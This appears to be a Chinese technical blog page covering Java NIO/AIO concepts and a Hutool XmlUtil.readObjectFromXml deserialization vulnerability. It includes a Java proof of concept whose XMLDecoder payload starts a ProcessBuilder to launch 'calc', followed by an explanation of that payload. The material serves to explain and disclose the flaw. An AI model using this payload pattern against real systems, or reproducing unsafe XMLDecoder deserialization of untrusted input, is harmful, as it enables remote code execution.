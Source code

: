       

      1. 应用程序（A）通过选择器（B）发起连接请求
      2. 选择器（B）将通道（channel代表了服务端与客户端的连接）注册，使其成为监视对象，以便选择器可以监听多个通道的事件。
      3. 当有新的连接请求到达时，选择器（B）会处理这个事件，并将新的通道（C）加入到已注册的通道列表（D）中，以备后续操作。
      4. 选择器（B）不断监听通道列表（D）中通道的读写事件。
      5. 当某个通道（E）有读或写事件时，选择器（B）会将该通道标记为就绪状态，并执行相应的读取或写入操作。
      6. 读取或写入操作使用缓冲区（F）来处理数据，应用程序可以在缓冲区中读取或写入数据。
- AIO

  - 异步非阻塞IO
  - Java 的 NIO 就是 Reactor
  - 当有事件触发时，服务器端得到通知，进行相应的处理，完成后才通知(回调)服务端程序启动线程去处理
  - 一般适用于连接数较多且连接时间较长的应用


## hutool之XmlUtil反序列化漏洞
> - 同样存在漏洞的方法还有IoUtil.readObject方法，存在反序列化漏洞，这些方法的漏洞在JDK中本身就存在，而且JDK的做法是要求用户自行检查内容，作为工具类，这块没法解决。
> - hutool在新版本中把这个方法拿掉了
>   - 【core 】 【重要】删除XmlUtil.readObjectFromXml方法，避免漏洞（issue#2855@Github）
### 问题描述
Hutool提供的XML实用程序类在使用XmlUtil.readObjectFromXml解析不受信任的XML字符串时可能容易受到远程代码执行的攻击
### 使用示例
```java
    public static void main(String[] args) {
        InputSource inputSource = new InputSource(StrUtil.getReader("<java>\n" +
                "    <object class=\"java.lang.ProcessBuilder\">\n" +
                "        <array class=\"java.lang.String\" length=\"1\">\n" +
                "            <void index=\"0\">\n" +
                "                <string>calc</string>\n" +
                "            </void>\n" +
                "        </array>\n" +
                "        <void method=\"start\"></void>\n" +
                "    </object>\n" +
                "</java>\n"));
        Object result;
        XMLDecoder xmldec = null;
        try {
            xmldec = new XMLDecoder(inputSource);
            result = xmldec.readObject();
        } finally {
            IoUtil.close(xmldec);
        }
    }
```
![image](https://github.com/muchfish/blogs/assets/152949892/77e2bd39-eee7-4533-8359-f6d0ce5f9f59)

### 漏洞原理
这个XML片段描述了一个 `java.lang.ProcessBuilder` 对象的序列化表示，并且调用了它的 `start` 方法。以下是对该XML片段的详细解释：

```xml
<java>
    <object class="java.lang.ProcessBuilder">
        <array class="java.lang.String" length="1">
            <void index="0">
                <string>calc</string>
            </void>
        </array>
        <void method="start"></void>
    </object>
</java>
```
